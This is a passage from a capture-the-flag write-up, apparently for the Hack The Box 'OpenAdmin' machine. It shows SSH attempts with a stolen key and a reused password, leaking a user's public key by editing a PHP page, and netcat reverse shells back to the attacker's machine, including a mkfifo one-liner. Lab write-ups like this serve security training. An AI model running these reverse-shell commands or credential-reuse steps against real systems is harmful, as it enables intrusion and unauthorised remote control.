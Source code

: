 After creating the key and try to ssh, it asks us the password. Seeing the last paragraph in the last response, we can use our old password "n1nj4W4rri0R!". However, it doesn't work.

```
kali@kali:/tmp$ vim joanna-openadmin
kali@kali:/tmp$ chmod 400 joanna-openadmin 
kali@kali:/tmp$ ssh joanna@10.10.10.171 -i joanna-openadmin 
Enter passphrase for key 'joanna-openadmin': 
Enter passphrase for key 'joanna-openadmin': 
Enter passphrase for key 'joanna-openadmin': 
joanna@10.10.10.171's password: 
Permission denied, please try again.
joanna@10.10.10.171's password: 
```

Editing /var/www/internal/main.php, we can get another diferent files from joanna, as her public key:
```
jimmy@openadmin:/var/www/internal$ curl -XPOST "127.0.0.1:52846/main.php"
<pre>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQq/QYeYL+V+jJ+LryA/icUJL9zyT72WMo5Bq0THQk2VQ/JaY6KiLJ929clsttUEM4RVY0yBldrvQ3EEpOrlls2PImRMOwMz7cPnrL11t53OugzwEtFPqO/8yWcqquGO2qp8Jw5xvthIiLUg0t2z5CzbLLAGj1EVMCjhgKMR6r6ZOJRK/8M9n1YrOtuFoj+BRMyTNvHur3d1EumnVmfZk2AJeLqrXfxJAJ9hjD+266hlqbYd9GJDP5AfoXhW+fp1Q4sD+yHdr7XOrS24C2lwrPCrZoTaCPnDj01WuuTY/xCPfJuJcHjsVoZwrm7nSfkTJlS1y7xBqrVZwRxpCGhnQ/ joanna@openadmin
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```


Ok, as in others boxes, we can connect using nc:

First of all, we've executed netcat listening in our machine:
```
sudo nc -nlvp 1999
```
After this, we've executed this command in the server:
```
nc 10.10.14.6 1999 -e /bin/sh
```
but it dodn't work because some stranges nc versions have no "-e" flag... However, we have an alternative (thanks to http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1999 >/tmp/f   
```

And now...
```
kali@kali:/tmp$ sudo nc -nlvp 1999
listening on [any] 1999 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.171] 39358
/bin/sh: 0: can't access tty; job control turned off
$ ls
index.php
logout.php
main.php
$ whoami
joanna
```
